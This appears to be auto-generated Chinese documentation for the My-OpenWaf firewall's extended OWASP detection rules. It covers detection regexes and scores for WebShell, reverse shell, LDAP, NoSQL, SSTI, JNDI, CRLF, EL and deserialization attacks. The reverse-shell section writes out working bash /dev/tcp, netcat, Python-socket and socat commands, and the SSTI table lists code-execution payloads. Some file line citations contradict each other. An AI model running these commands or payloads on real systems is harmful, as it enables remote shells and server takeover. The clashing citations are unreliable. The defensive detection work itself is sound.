# 扩展 OWASP 规则

<cite>
**本文档引用的文件**
- [owasp_extended.go](file://internal/waf/owasp_extended.go)
- [owasp.go](file://internal/waf/owasp.go)
- [owasp_extended_test.go](file://internal/waf/owasp_extended_test.go)
- [matcher.go](file://internal/core/rules/matcher.go)
- [compiler.go](file://internal/core/rules/compiled.go)
- [phases.go](file://internal/core/rules/phases.go)
</cite>

## 目录
1. [简介](#简介)
2. [项目结构](#项目结构)
3. [核心组件](#核心组件)
4. [架构概览](#架构概览)
5. [详细组件分析](#详细组件分析)
6. [依赖关系分析](#依赖关系分析)
7. [性能考虑](#性能考虑)
8. [故障排除指南](#故障排除指南)
9. [结论](#结论)

## 简介

本文档详细介绍 My-OpenWaf 项目中的扩展 OWASP 规则实现。该项目是一个基于 Go 语言开发的 Web 应用防火墙，提供了全面的 Web 攻击检测能力，包括传统的 OWASP Top 10 攻击防护以及高级和专业级的扩展检测规则。

扩展规则涵盖了以下复杂攻击类型的检测：
- WebShell 检测
- 反向 Shell 检测  
- LDAP 注入检测
- NoSQL 注入检测
- 模板注入（SSTI）检测
- JNDI/Log4Shell 注入检测
- CRLF 注入检测
- 表达式语言注入检测
- 序列化攻击检测

## 项目结构

My-OpenWaf 项目采用模块化的架构设计，主要包含以下核心目录：



**图表来源**
- [owasp_extended.go:1-697](file://internal/waf/owasp_extended.go#L1-L697)
- [owasp.go:1-2213](file://internal/waf/owasp.go#L1-L2213)
- [matcher.go:1-343](file://internal/core/rules/matcher.go#L1-L343)

**章节来源**
- [owasp_extended.go:1-697](file://internal/waf/owasp_extended.go#L1-L697)
- [owasp.go:1-2213](file://internal/waf/owasp.go#L1-L2213)

## 核心组件

### OWASP 默认检测引擎

OWASP 默认检测引擎是整个安全防护系统的核心，负责对请求进行全面的安全检查。该引擎采用多阶段扫描策略，包括预过滤、正则匹配和上下文验证等多层次检测机制。



**图表来源**
- [owasp.go:48-234](file://internal/waf/owasp.go#L48-L234)

### 扩展检测规则集

扩展检测规则集提供了针对高级攻击手法的专业级检测能力，每个检测类别都包含专门的特征提取算法和误报控制机制。

**章节来源**
- [owasp_extended.go:1-697](file://internal/waf/owasp_extended.go#L1-L697)
- [owasp.go:1-2213](file://internal/waf/owasp.go#L1-L2213)

## 架构概览

### 整体架构设计



**图表来源**
- [phases.go:246-303](file://internal/core/rules/phases.go#L246-L303)
- [owasp.go:252-303](file://internal/waf/owasp.go#L252-L303)

### 检测流程

扩展检测引擎采用分层检测策略，通过快速预过滤和深度分析相结合的方式，确保既能高效处理正常流量，又能准确识别复杂的攻击模式。

**章节来源**
- [owasp.go:48-234](file://internal/waf/owasp.go#L48-L234)
- [phases.go:246-303](file://internal/core/rules/phases.go#L246-L303)

## 详细组件分析

### WebShell 检测

WebShell 检测是针对服务器端恶意脚本的专门防护机制，能够识别各种编程语言编写的 WebShell 脚本特征。

#### 检测算法实现



**图表来源**
- [owasp_extended.go:2002-2020](file://internal/waf/owasp_extended.go#L2002-L2020)

#### 特征提取方法

WebShell 检测使用了多种特征提取方法：

1. **函数调用模式**：检测系统命令执行函数如 `eval()`, `assert()`, `system()`, `exec()`
2. **编码解码模式**：识别 Base64 编码的恶意载荷
3. **文件操作模式**：检测文件写入和读取操作
4. **动态执行模式**：识别动态代码生成和执行

#### 误报控制机制



**图表来源**
- [owasp.go:1854-1870](file://internal/waf/owasp.go#L1854-L1870)

**章节来源**
- [owasp_extended.go:1955-2000](file://internal/waf/owasp_extended.go#L1955-L2000)
- [owasp.go:1955-2020](file://internal/waf/owasp.go#L1955-L2020)

### 反向 Shell 检测

反向 Shell 检测专注于识别尝试建立反向连接的恶意请求，防止服务器被利用作为跳板。

#### 检测特征

反向 Shell 检测覆盖了多种常见的反向连接方式：

| 检测类型 | 关键特征 | 示例 |
|---------|---------|------|
| Bash 反向连接 | `bash -i >& /dev/tcp/` | `bash -i >& /dev/tcp/192.168.1.100/4444 0>&1` |
| Netcat 连接 | `nc -e` 或 `ncat -e` | `nc -e /bin/bash 192.168.1.100 4444` |
| Python Socket | `python -c socket` | `python -c 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.100",4444));'` |
| Socat 连接 | `socat exec:` | `socat TCP-LISTEN:4444,fork EXEC:'/bin/bash'` |

#### 检测算法



**图表来源**
- [owasp_extended.go:2047-2065](file://internal/waf/owasp_extended.go#L2047-L2065)

**章节来源**
- [owasp_extended.go:2022-2045](file://internal/waf/owasp_extended.go#L2022-L2045)
- [owasp.go:1209-1229](file://internal/waf/owasp.go#L1209-L1229)

### LDAP 注入检测

LDAP 注入检测专门针对 Lightweight Directory Access Protocol 的注入攻击进行防护。

#### 检测模式

LDAP 注入检测关注以下关键模式：

1. **过滤器注入模式**：`)(|` 和 `)(&` 组合
2. **对象类绕过**：`*)(objectclass=`
3. **通配符滥用**：`*(admin)*`

#### 检测逻辑



**图表来源**
- [owasp_extended.go:228-246](file://internal/waf/owasp_extended.go#L228-L246)

**章节来源**
- [owasp_extended.go:205-246](file://internal/waf/owasp_extended.go#L205-L246)

### NoSQL 注入检测

NoSQL 注入检测针对 MongoDB 等文档数据库的注入攻击进行专门防护。

#### 检测特征

| 检测类型 | 正则表达式 | 分数 |
|---------|-----------|------|
| `$where` 注入 | `(?i)\$where\b` | 5 |
| `$ne` 操作符 | `(?i)\$ne\b` | 3 |
| `$gt` 操作符 | `(?i)\$gt\b` | 3 |
| `$regex` 模式 | `(?i)\$regex\b` | 4 |
| `$or` 数组 | `(?i)\$or\b\s*:\s*\[` | 3 |
| `$exists` 检查 | `(?i)\$exists\b` | 3 |
| `$lookup` 聚合 | `(?i)\$lookup\b\s*:\s*\{` | 4 |
| JavaScript 注入 | `(?i)this\.\w+\s*(==|!=|===|!==)\s*['"]` | 3 |

#### 上下文验证



**图表来源**
- [owasp_extended.go:267-282](file://internal/waf/owasp_extended.go#L267-L282)

**章节来源**
- [owasp_extended.go:248-282](file://internal/waf/owasp_extended.go#L248-L282)
- [owasp.go:1823-1833](file://internal/waf/owasp.go#L1823-L1833)

### 模板注入（SSTI）检测

模板注入检测专门针对服务器端模板注入攻击，这类攻击可以导致远程代码执行。

#### 检测模式

模板注入检测覆盖了多种模板引擎的特征：

| 模板引擎 | 检测模式 | 示例 |
|---------|---------|------|
| Jinja2/Django | `{{ }}` | `{{ config.get('SECRET_KEY') }}` |
| Freemarker/Velocity | `${ }` | `${foo.getClass().forName('java.lang.Runtime').getMethod('exec','java.lang.String').invoke(null,'id')}` |
| ERB/JSP | `<%= %>` | `<%= system('id') %>` |
| Smarty | `{php}...{/php}` | `{php}system('id'){/php}` |
| Python | `__class__` 链 | `{{''.__class__.__mro__[2].__subclasses__()}}` |

#### 多层次检测



**图表来源**
- [owasp_extended.go:347-365](file://internal/waf/owasp_extended.go#L347-L365)

**章节来源**
- [owasp_extended.go:284-365](file://internal/waf/owasp_extended.go#L284-L365)
- [owasp.go:1852-1850](file://internal/waf/owasp.go#L1852-L1850)

### JNDI/Log4Shell 注入检测

JNDI 注入检测专门针对 Log4Shell 等基于 JNDI 的远程代码执行漏洞。

#### 检测特征

| 检测类型 | 正则表达式 | 分数 |
|---------|-----------|------|
| JNDI 基本模式 | `(?i)\$\{jndi:(ldap|rmi|dns|iiop|corba|nds|http)s?://` | 6 |
| 环境变量注入 | `(?i)\$\{(env|sys):.*\}` | 4 |
| 嵌套表达式 | `(?i)\$\{.*\$\{.*\}\}` | 3 |
| Unicode 转义 | `(?i)\\u0024\\u007[bB]jndi` | 5 |
| URL 编码 | `(?i)%24%7[bB]jndi\s*%3[aA]` | 5 |

#### 检测流程



**图表来源**
- [owasp_extended.go:473-491](file://internal/waf/owasp_extended.go#L473-L491)

**章节来源**
- [owasp_extended.go:441-491](file://internal/waf/owasp_extended.go#L441-L491)

### CRLF 注入检测

CRLF 注入检测针对 HTTP 响应拆分攻击进行防护。

#### 检测模式

| 检测类型 | 正则表达式 | 分数 |
|---------|-----------|------|
| 基本 CRLF | `\r\n\s*(set-cookie|location|content-type|x-[\w-]+)\s*:` | 6 |
| URL 编码 CRLF | `%0d%0a\s*(set-cookie|location|content-type)\s*:` | 6 |
| 连续 CRLF | `%0d%0a%0d%0a` | 5 |
| 纯文本 CRLF | `\r\n\r\n` | 4 |

#### 上下文验证



**图表来源**
- [owasp_extended.go:506-521](file://internal/waf/owasp_extended.go#L506-L521)

**章节来源**
- [owasp_extended.go:493-521](file://internal/waf/owasp_extended.go#L493-L521)
- [owasp.go:1872-1879](file://internal/waf/owasp.go#L1872-L1879)

### 表达式语言注入检测

表达式语言注入检测针对 Spring EL、OGNL、SpEL 等表达式语言的注入攻击。

#### 检测特征

| 检测类型 | 正则表达式 | 分数 |
|---------|-----------|------|
| Spring EL | `(?i)#\{T\(java\.lang\.` | 6 |
| OGNL 基本 | `(?i)%\{.*getClass\(\)` | 5 |
| Runtime 获取 | `(?i)\(#rt\s*=\s*@java\.lang\.Runtime\)` | 6 |
| 类访问 | `(?i)java\.lang\.(runtime|processbuilder|class|system)` | 4 |
| 反射调用 | `(?i)getdeclaredmethods\b.*\.invoke\s*\(` | 5 |

#### 检测策略



**图表来源**
- [owasp_extended.go:574-592](file://internal/waf/owasp_extended.go#L574-L592)

**章节来源**
- [owasp_extended.go:523-592](file://internal/waf/owasp_extended.go#L523-L592)
- [owasp.go:1835-1849](file://internal/waf/owasp.go#L1835-L1849)

### 序列化攻击检测

序列化攻击检测针对各种编程语言的序列化漏洞进行防护。

#### 检测模式

| 检测类型 | 正则表达式 | 分数 |
|---------|-----------|------|
| Java 序列化 | `\xac\xed\x00\x05` | 6 |
| PHP 序列化 | `(?i)O:\d+:"[^"]+"` | 4 |
| Python Pickle | `(?i)c(os|posix|nt)\n(system|popen)` | 5 |
| .NET ViewState | `(?i)__viewstate.*ysoserial` | 5 |
| Ruby Marshal | `\x04\x08[\x30\x49\x5b\x6f\x7b]` | 3 |
| Node.js 序列化 | `(?i)\{"rce":\s*"_\$\$ND_FUNC\$\$_` | 5 |

#### 多语言支持



**图表来源**
- [owasp_extended.go:629-648](file://internal/waf/owasp_extended.go#L629-L648)

**章节来源**
- [owasp_extended.go:594-648](file://internal/waf/owasp_extended.go#L594-L648)

## 依赖关系分析

### 规则引擎集成

扩展检测规则与核心规则引擎紧密集成，通过统一的接口实现检测功能。



**图表来源**
- [matcher.go:11-14](file://internal/core/rules/matcher.go#L11-L14)
- [compiler.go:11-20](file://internal/core/rules/compiler.go#L11-L20)
- [phases.go:246-303](file://internal/core/rules/phases.go#L246-L303)

### 检测组合策略

扩展检测采用了多层次的组合检测策略：

1. **快速预过滤**：通过字符集检查快速排除安全请求
2. **特征匹配**：使用正则表达式进行精确匹配
3. **上下文验证**：通过语境分析减少误报
4. **评分系统**：综合多个检测结果生成最终评分

**章节来源**
- [owasp.go:930-1014](file://internal/waf/owasp.go#L930-L1014)
- [matcher.go:167-261](file://internal/core/rules/matcher.go#L167-L261)

## 性能考虑

### 优化策略

扩展检测引擎采用了多种性能优化策略：

1. **字符集预过滤**：使用快速字符集检查避免不必要的正则匹配
2. **目标长度限制**：限制单个检测目标的最大长度以控制处理时间
3. **正则表达式缓存**：缓存编译后的正则表达式以提高重复匹配效率
4. **早期退出机制**：在达到阈值时立即返回结果

### 内存管理

